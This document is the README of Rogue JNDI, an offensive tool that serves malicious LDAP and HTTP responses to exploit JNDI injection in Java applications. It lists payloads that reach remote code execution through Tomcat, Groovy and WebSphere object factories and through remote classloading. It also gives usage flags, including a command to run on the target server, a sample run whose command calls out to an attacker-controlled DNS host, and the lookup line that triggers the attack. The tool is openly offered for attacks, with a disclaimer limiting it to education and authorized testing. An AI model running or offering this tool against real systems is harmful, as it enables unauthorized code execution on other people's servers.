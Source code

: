 ## Rogue JNDI
A malicious LDAP server for JNDI injection attacks.

### Description
The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.<br> 
In order to perform an attack, you can start these servers locally and then trigger a JNDI resolution on the vulnerable client, e.g.:
```java
InitialContext.doLookup("ldap://your_server.com:1389/o=reference");
```
It will initiate a connection from the vulnerable client to the local LDAP server.
Then, the local server responds with a malicious entry containing one of the payloads, that can be useful to achieve a Remote Code Execution. 

### Motivation
In addition to the known JNDI attack methods(via remote classloading in references), this tool brings new attack vectors by leveraging the power of [ObjectFactories](https://docs.oracle.com/javase/8/docs/api/javax/naming/spi/ObjectFactory.html).

### Supported payloads
* [RemoteReference.java](/src/main/java/artsploit/controllers/RemoteReference.java) - classic JNDI attack, leads to RCE via remote classloading, works up to jdk8u191 
* [Tomcat.java](/src/main/java/artsploit/controllers/Tomcat.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** 
* [Groovy.java](/src/main/java/artsploit/controllers/Groovy.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** + **groovy.lang.GroovyShell**
* [WebSphere1.java](/src/main/java/artsploit/controllers/WebSphere1.java) - leads to OOB XXE in **com.ibm.ws.webservices.engine.client.ServiceFactory**
* [WebSphere2.java](/src/main/java/artsploit/controllers/WebSphere2.java) - leads to RCE via classpath manipulation in **com.ibm.ws.client.applicationclient.ClientJ2CCFFactory**

### Usage
```
$ java -jar target/RogueJndi-1.0.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command     Command to execute on the target server (default: touch 
                      /usr/local/tomcat/temp/pwn.txt) 
    -n, --hostname    Local HTTP server hostname (required for remote 
                      classloading and websphere payloads) (default: 
                      192.168.0.166) 
    -l, --ldapPort    Ldap bind port (default: 1389)
    -p, --httpPort    Http bind port (default: 8000)
    --wsdl            [websphere1 payload option] WSDL file with XXE payload 
                      (default: /list.wsdl)
    --localjar        [websphere2 payload option] Local jar file to load (this 
                      file should be located on the remote server) (default: 
                      ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    --h2              [H2 database init script file (default: /h2)
    --js-payload-path [H2 database init script file (default: <empty string>)
    -h, --help        Show this help
```
The most important parameters are the ldap server hostname (-n, should be accessible from the target) and the command you want to execute on the target server (-c).
 
As an alternative to the "-c" option, you can modify the [ExportObject.java](/src/main/java/artsploit/ExportObject.java) file by putting java code you want to execute on the target server. 

### Example:
```
$ java -jar target/RogueJndi-1.1.jar --command "nslookup your_dns_sever.com" --hostname "192.168.1.10"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.0.166:1389/o=h2 to artsploit.controllers.H2
Mapping ldap://192.168.0.166:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.0.166:1389/o=tomcat10 to artsploit.controllers.Tomcat10
Mapping ldap://192.168.0.166:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.0.166:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://192.168.0.166:1389/o=tomcat10-jshell to artsploit.controllers.Tomcat10JShell
Mapping ldap://192.168.0.166:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.0.166:1389/o=tomcat-jshell to artsploit.controllers.TomcatJShell
Mapping ldap://192.168.0.166:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.0.166:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://192.168.0.166:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.0.166:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
```

### Building
Java v1.7+ and Maven v3+ required
```
mvn package
```

### Disclamer
This software is provided solely for educational purposes and/or for testing systems which the user has prior permission to attack.

### Special Thanks
* [Alvaro Muñoz](https://twitter.com/pwntester) and [Oleksandr Mirosh](https://twitter.com/olekmirosh) for the excellent [whitepaper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) on JNDI attacks
* [@zerothoughts](https://github.com/zerothoughts) for the inspirational [spring-jndi](https://github.com/zerothoughts/spring-jndi) repository
* [Moritz Bechler](https://github.com/zerothoughts) for the eminent [marshallsec](https://github.com/mbechler/marshalsec) research
* [Orange Tsai](https://twitter.com/orange_8361) and [Welk1n](https://github.com/welk1n) for the Apache + Groovy gadget

### Links
* An article about [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) in the Veracode Blog
* [How I Hacked Facebook Again! Unauthenticated RCE on MobileIron MDM](https://blog.orange.tw/2020/09/how-i-hacked-facebook-again-mobileiron-mdm-rce.html) 

### Authors
[Michael Stepankin](https://twitter.com/artsploit)